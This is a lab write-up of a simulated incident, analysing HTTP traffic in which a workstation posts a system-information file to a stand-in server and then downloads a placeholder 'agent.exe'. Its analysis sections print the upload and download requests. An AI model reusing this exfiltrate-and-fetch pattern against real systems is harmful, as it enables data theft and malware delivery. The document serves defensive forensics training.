




# Investigation 06: Malicious HTTP Activity Investigation

**Investigation Type:** Network Forensics / Suspicious HTTP Activity  
**Environment:** Controlled Cybersecurity Laboratory  
**Primary Analysis Tool:** Wireshark  
**Supporting Tool:** Kali Linux  
**Evidence Source:** Preserved Network Analysis Screenshots  
**Status:** Completed

## 1. Project Overview

This investigation examines suspicious HTTP communication between a workstation and a remote server.

The investigation focuses on an outbound HTTP POST request referencing system information, followed by the retrieval of an executable-like object from the same server.

Wireshark was used to examine the available HTTP traffic, while Kali Linux was used to examine the recovered HTTP object without executing it.

The purpose was to identify the activities observed during the communication, assess their potential security implications, and determine whether the behaviour was consistent with suspicious or malicious network activity.

## 2. Investigation Objectives

The objectives of this investigation were to:

- Examine HTTP communication between a workstation and a remote server.
- Identify outbound HTTP POST requests referencing system information.
- Analyse HTTP responses and server acknowledgements.
- Investigate the retrieval of an executable-like object.
- Examine the characteristics of the recovered HTTP object.
- Determine whether the observed communication pattern presented potential security concerns.
- Establish an appropriate classification based on the available evidence.
- Document investigation limitations and recommended SOC response actions.

## 3. Investigation Environment

The investigation involved HTTP network traffic examined using Wireshark and Kali Linux.

### Network Information

| Component | Observed Value |
|---|---|
| Source IP Address | `10.0.2.15` |
| Destination IP Address | `198.51.100.23` |
| Protocol | HTTP |
| Destination Port | `80` |
| Host | `update-check.example` |
| User-Agent | `curl/8.1` |

The observed communication involved HTTP requests and responses between the workstation and the remote server.

## 4. Investigation Scenario

A security analyst identifies unusual HTTP communication originating from a workstation.

The workstation first sends a POST request referencing a system information file to a remote server. Following the server's acknowledgement, the workstation requests an executable-like file from the same destination.

The analyst is required to examine the sequence of HTTP activities, inspect the recovered object, and determine whether the communication pattern represents potentially suspicious behaviour.

## 5. Initial Observations

The initial examination identified the following activities:

1. Workstation `10.0.2.15` initiated HTTP communication with server `198.51.100.23`.
2. The workstation sent a POST request to `/upload`.
3. The request referenced `system_info.txt`.
4. The server returned `HTTP/1.1 200 OK` and the message `upload received`.
5. The workstation subsequently requested `/files/agent.exe`.
6. The server returned another `HTTP/1.1 200 OK` response.
7. The returned object had the content type `application/octet-stream`.
8. The recovered object was 16 bytes in size and contained `MZFAKEPAYLOADDAT`.
9. The HTTP requests identified `curl/8.1` as the User-Agent.

These observations indicated potentially suspicious HTTP activity requiring further examination.

## 6. HTTP Upload Traffic Analysis

The workstation `10.0.2.15` initiated an HTTP POST request to the `/upload` endpoint on server `198.51.100.23`.

The request contained:

```text
file=system_info.txt&action=send
```

The request used the following content type:

```text
application/x-www-form-urlencoded
```

The HTTP User-Agent was:

```text
curl/8.1
```

The server returned:

```text
HTTP/1.1 200 OK

upload received
```

This indicates that the server acknowledged receiving the upload request.

However, the actual contents of `system_info.txt` were not available for examination.

Therefore, the investigation cannot establish exactly what information the file contained or whether sensitive information was successfully disclosed.

### Evidence 1: HTTP Upload Request

The following screenshot shows the outbound HTTP POST request referencing `system_info.txt`.



**Analysis:**

The POST request demonstrates an attempt to send information associated with `system_info.txt` to the remote server.

The server's response indicates that the upload request was received.

The actual contents of the referenced file remain unknown.

## 7. Executable-Like File Retrieval

Following the POST request, the workstation requested:

```http
GET /files/agent.exe HTTP/1.1
```

The remote server responded with:

```http
HTTP/1.1 200 OK
```

The response included:

| Field | Value |
|---|---|
| Content-Type | `application/octet-stream` |
| Content-Length | `16 bytes` |
| Connection | `close` |

The server successfully returned an object corresponding to the requested resource.

### Evidence 2: Executable Download Request

The following screenshot shows the workstation requesting `agent.exe` from the remote server.



**Analysis:**

The HTTP GET request demonstrates that the workstation requested an executable-like resource from the same remote destination involved in the earlier upload request.

The sequence of an outbound information-transfer request followed by executable-like file retrieval raises security concerns and warrants further investigation.

## 8. HTTP Response and Payload Analysis

The returned HTTP object was 16 bytes in size.

The recovered content was:

```text
MZFAKEPAYLOADDAT
```

The object begins with the `MZ` signature commonly associated with Windows executable files.

However, the recovered object was only 16 bytes long. This does not establish that it was a complete or functional Windows executable.

### Evidence 3: Executable-Like HTTP Response

The following screenshot shows the HTTP response containing the executable-like object.



**Analysis:**

The server returned a 16-byte object with an `application/octet-stream` content type.

The presence of the `MZ` signature provides an executable-like characteristic, but file functionality cannot be established from the signature alone.

### Evidence 4: Recovered Payload Examination

The recovered object was examined in Kali Linux without executing it.



The recovered data was:

```text
MZFAKEPAYLOADDAT
```

**Analysis:**

The examination confirmed the content of the recovered 16-byte object.

No execution of the object was performed during the investigation.

The available evidence therefore supports the identification of an executable-like object but does not confirm that a functional executable was transferred or executed.

## 9. Post-Download Activity

The available investigation records also identified a separate HTTP request involving the workstation and destination address `203.0.113.10`.

The workstation requested:

```http
GET /logo.png HTTP/1.1
```

The server responded with:

```http
HTTP/1.1 404 Not Found
```

This request did not provide sufficient evidence to establish that the previously retrieved executable-like object was executed.

No confirmed post-download execution activity was established from the available evidence.

## 10. Key Investigation Findings

The investigation identified the following findings:

1. Workstation `10.0.2.15` communicated with server `198.51.100.23` over HTTP.
2. The workstation sent a POST request to `/upload` referencing `system_info.txt`.
3. The server returned `HTTP/1.1 200 OK` with the message `upload received`.
4. The workstation subsequently requested `/files/agent.exe`.
5. The server returned an `application/octet-stream` object with a content length of 16 bytes.
6. The recovered object contained `MZFAKEPAYLOADDAT`, beginning with the `MZ` signature.
7. The communication identified `curl/8.1` as the HTTP User-Agent.
8. The actual contents of `system_info.txt` could not be established.
9. No evidence confirmed that the recovered object was executed.
10. The available evidence did not establish successful compromise of the workstation.

The combination of outbound information-transfer activity and subsequent executable-like file retrieval represents a significant security concern.

## 11. Analyst Interpretation and Classification

**Observed Behaviour:** Suspicious HTTP Communication Involving Information Transfer and Executable-Like File Retrieval

**Security Classification:** Simulated Malicious HTTP Activity — Suspicious Behaviour Observed

The investigation identified a sequence of HTTP requests involving an outbound POST request referencing system information, followed by retrieval of an executable-like object from the same remote server.

This communication pattern is inconsistent with ordinary web browsing and warrants investigation.

However, the investigation did not establish the actual contents of the referenced system information file, execution of the recovered object, or successful compromise of the workstation.

The classification therefore reflects the suspicious behaviour observed within the controlled investigation scenario rather than a confirmed real-world compromise.

## 12. Potential Business and Security Risks

If similar behaviour were identified in a production environment, potential risks could include:

- Unauthorized transfer of confidential system information.
- Delivery of potentially malicious executable content.
- Unauthorized communication with suspicious remote infrastructure.
- Possible malware introduction into an organizational environment.
- Potential compromise of endpoint confidentiality and integrity.
- Further malicious activity if a delivered payload were executed.

These are potential security implications, not confirmed impacts of this investigation.

## 13. Recommended SOC Response

If similar activity were identified in a production environment, the following actions would be recommended:

1. Investigate the workstation responsible for generating the HTTP requests.
2. Identify the user and process responsible for initiating the communication.
3. Preserve the original network traffic and extracted HTTP objects.
4. Calculate and document the cryptographic hash of the recovered object.
5. Examine the workstation for evidence of file creation or execution.
6. Review process creation records and PowerShell or command-line activity where relevant.
7. Examine the contents of `system_info.txt` if the original file becomes available.
8. Investigate additional network communication involving the identified destination.
9. Restrict communication with the remote destination if it is confirmed to be malicious.
10. Escalate the incident for further endpoint and network investigation.

## 14. Evidence Limitations

The investigation was documented using the screenshots preserved from the original practical exercise.

The original Wireshark PCAP file is no longer available, and one of the original screenshots relating to the upload source and destination IP addresses could not be recovered.

The available screenshots support the examination of the HTTP upload request, executable-like resource request, HTTP response, and recovered object.

However, the absence of the original PCAP limits the ability to independently replay and re-examine the complete packet sequence.

The investigation could not conclusively establish:

- The actual contents of `system_info.txt`.
- Whether sensitive information was contained in the referenced file.
- Whether the recovered object was a complete or functional executable.
- Whether the object was executed on the workstation.
- Whether the workstation was successfully compromised.
- Whether additional post-download malicious activity occurred.

These limitations are documented to ensure that the investigation conclusions remain within the scope of the preserved evidence.

## 15. Investigation Conclusion

The investigation identified suspicious HTTP communication involving workstation `10.0.2.15` and remote server `198.51.100.23`.

The workstation sent a POST request referencing `system_info.txt`, which was acknowledged by the server. The workstation subsequently requested `/files/agent.exe`, and the server returned a 16-byte object containing `MZFAKEPAYLOADDAT`.

The combination of the information-transfer request and subsequent executable-like file retrieval raised security concerns and supported the classification of the observed behaviour as simulated malicious HTTP activity.

However, the investigation did not establish the actual contents of the referenced system information file, execution of the retrieved object, or successful compromise of the workstation.

Further endpoint investigation and access to the original network capture would be necessary to establish the full impact of the activity.

## 16. Skills Demonstrated

- Network forensics using Wireshark.
- HTTP request and response analysis.
- Identification of outbound information-transfer activity.
- Examination of executable-like HTTP objects.
- Safe recovered-payload analysis using Kali Linux.
- HTTP content-type and content-length interpretation.
- Suspicious network communication assessment.
- Evidence-based incident classification.
- Investigation limitation documentation.
- SOC incident reporting and recommended response development.

## 17. Disclaimer

This investigation was conducted for educational and cybersecurity skill-development purposes using a controlled investigation scenario.

The findings are based on the original investigation observations and the screenshots preserved from the exercise.

The investigation does not represent independent verification of a real-world cyberattack, confirmed malware execution, or successful system compromise.
